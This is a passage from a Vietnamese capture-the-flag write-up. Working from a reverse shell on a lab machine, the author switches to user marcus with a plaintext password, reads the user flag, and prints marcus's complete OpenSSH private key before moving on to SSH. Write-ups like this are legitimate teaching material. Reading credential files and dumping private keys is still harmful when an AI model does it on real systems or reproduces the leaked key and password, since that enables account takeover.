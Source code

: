 Ở reverse shell, tôi chuyển sang user marcus và có thể đọc được các file trong thư mục của marcus:

```
bash-5.1$ su marcus
su marcus
Password: 12345678910
whoami
marcus
cat ~/user.txt
6dcf2177ed6f67c9074c09a22c7708fd
cat ~/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Tiếp theo là ssh vào với user là marcus:
